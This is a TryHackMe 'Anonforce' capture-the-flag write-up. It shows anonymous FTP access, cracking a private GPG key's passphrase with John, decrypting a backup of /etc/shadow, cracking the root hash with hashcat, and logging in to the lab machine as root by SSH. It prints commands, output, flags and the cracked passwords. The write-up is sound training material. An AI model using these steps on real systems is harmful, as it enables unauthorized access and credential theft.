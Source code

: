 ```yaml
---
title: Anonforce
description: 'Anonymous FTP access and cracking a private GPG key file'
pubDate: 2024-08-27
category: 'tryhackme'
image: 'https://tryhackme-images.s3.amazonaws.com/room-icons/eef338293d4a928420f1603870699e75.jpeg'
---
```


There is anonymous FTP access, this way we can get the user flag.

```bash
ftp 10.10.217.185
Connected to 10.10.217.185.
220 (vsFTPd 3.0.3)
Name (10.10.217.185:ex-it): anonymous
331 Please specify the password.
Password:
230 Login successful.
...[snip]...
ftp> less /home/melodias/user.txt
606083fd33beb1284fc51f411a706af8
```

## ROOT

In the root there is a directory that stands out (`notread`).

There are 2 files in there, lets grab them:

```bash
ftp> cd notread
250 Directory successfully changed.
ftp> ls -al
229 Entering Extended Passive Mode (|||56167|)
150 Here comes the directory listing.
drwxrwxrwx    2 1000     1000         4096 Aug 11  2019 .
drwxr-xr-x   23 0        0            4096 Aug 11  2019 ..
-rwxrwxrwx    1 1000     1000          524 Aug 11  2019 backup.pgp
-rwxrwxrwx    1 1000     1000         3762 Aug 11  2019 private.asc
...[snip]...
get backup.pgp
...[snip]...
get private.asc
```

The `private.asc` file seems to be a private GPG key file.
We can brute force it with John:


Create the hash file:
```bash
gpg2john private.asc > private.hash
```

Brute force the hash:
```bash
john --wordlist=/usr/share/wordlists/rockyou.txt private.hash
Using default input encoding: UTF-8
Loaded 1 password hash (gpg, OpenPGP / GnuPG Secret Key [32/64])
Cost 1 (s2k-count) is 65536 for all loaded hashes
Cost 2 (hash algorithm [1:MD5 2:SHA1 3:RIPEMD160 8:SHA256 9:SHA384 10:SHA512 11:SHA224]) is 2 for all loaded hashes
Cost 3 (cipher algorithm [1:IDEA 2:3DES 3:CAST5 4:Blowfish 7:AES128 8:AES192 9:AES256 10:Twofish 11:Camellia128 12:Camellia192 13:Camellia256]) is 9 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
xbox360          (anonforce)
```

Now lets try to read the `backup.pgp`.

Import the private key, when asked enter the password `xbox360`:
```bash
gpg --import private.asc
gpg: key B92CD1F280AD82C2: public key "anonforce <melodias@anonforce.nsa>" imported
gpg: key B92CD1F280AD82C2: secret key imported
gpg: key B92CD1F280AD82C2: "anonforce <melodias@anonforce.nsa>" not changed
gpg: Total number processed: 2
gpg:               imported: 1
gpg:              unchanged: 1
gpg:       secret keys read: 1
gpg:   secret keys imported: 1
```

Decrypt the file, when asked enter the password `xbox360`:
```bash
gpg --output backup.txt --decrypt backup.pgp
gpg: WARNING: cipher algorithm CAST5 not found in recipient preferences
gpg: encrypted with 512-bit ELG key, ID AA6268D1E6612967, created 2019-08-12
      "anonforce <melodias@anonforce.nsa>"
```

The `backup.txt` file seems to contain the `/etc/shadow` file with the root hash.

Lets brute force the root hash with `hashcat`:
```bash
ashcat '$6$07nYFaYf$F4VMaegmz7dKjsTukBLh6cP01iMmL7CiQDt1ycIm6a.bsOIBp0DwXVb9XI2EtULXJzBtaMZMNd2tV4uob5RVM0' /usr/share/wordlists/rockyou.txt
...[snip]...
$6$07nYFaYf$F4VMaegmz7dKjsTukBLh6cP01iMmL7CiQDt1ycIm6a.bsOIBp0DwXVb9XI2EtULXJzBtaMZMNd2tV4uob5RVM0:hikari
...[snip]...
```

Now lets SSH into the target machine:
```bash
ssh root@10.10.217.185 # <-- hikari
```
